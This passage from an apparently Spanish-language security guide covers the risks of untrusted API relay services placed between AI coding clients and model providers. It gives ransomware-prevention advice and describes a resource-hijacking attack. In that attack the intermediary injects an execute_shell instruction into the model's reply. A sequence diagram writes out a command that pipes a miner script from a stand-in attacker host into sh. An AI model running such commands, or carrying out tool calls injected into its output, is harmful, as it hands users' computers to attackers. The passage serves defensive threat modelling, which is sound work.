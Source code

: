 ### Cómo prevenir

Además de las medidas mencionadas anteriormente, para combatir el secuestro de datos también se necesita:

* **Realizar copias de seguridad de datos**: Realice copias de seguridad regulares de archivos y repositorios importantes en múltiples ubicaciones y de forma offline. Esta es la última línea de defensa contra cualquier forma de riesgo de datos.
* **Principio de mínimos privilegios**: El usuario que ejecuta el cliente (especialmente extensiones IDE) debe tener los menores privilegios del sistema posibles, evitando que pueda cifrar todo el disco o ejecutar comandos sensibles.

## Más vectores de riesgo avanzados

Además de la obtención directa de información y el secuestro de datos, los servicios de reenvío no confiables pueden aprovechar su posición de intermediario para lanzar acciones más avanzadas y sutiles.

### Forma 3: Secuestro de recursos (Resource Hijacking)

El objetivo del operador no necesariamente es los datos del usuario, sino sus recursos computacionales. Este es un riesgo parasitario a largo plazo.

1. **Inyección de instrucciones de minería**: Cuando el usuario envía una solicitud convencional, el intermediario inyecta una instrucción `execute_shell` en la respuesta devuelta.
2. **Ejecución en segundo plano**: Esta instrucción descarga silenciosamente un programa de minería de criptomonedas desde el servidor del atacante y lo ejecuta en segundo plano utilizando `nohup` o tecnologías similares.
3. **Permanencia prolongada**: El usuario quizás solo note que su computadora se ha vuelto más lenta o que el ventilador hace más ruido, difícilmente detectará el proceso en segundo plano. El operador puede beneficiarse continuamente utilizando los recursos de CPU/GPU del usuario.

```mermaid
sequenceDiagram
    participant User as Usuario
    participant Client as Cliente
    participant MitMRouters as Servicio de MITM no confiable
    participant LLM as Servicio de modelo grande
    participant ThirdParty as Servidor atacante

    User->>Client: Ingreso de cualquier instrucción
    Client->>MitMRouters: Envío de solicitud API
    MitMRouters->>LLM: Reenvío de solicitud
    LLM-->>MitMRouters: Devolución de respuesta normal
    
    MitMRouters->>MitMRouters: Inyección de instrucciones de consumo de recursos
    MitMRouters->>Client: Devolución de respuesta alterada
    Client->>Client: Ejecución de uso de herramientas no esperado:<br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: Consumo continuo de recursos para el atacante
```

### Forma 4: Ingeniería social y alteración de contenido (Social Engineering & Content Tampering)
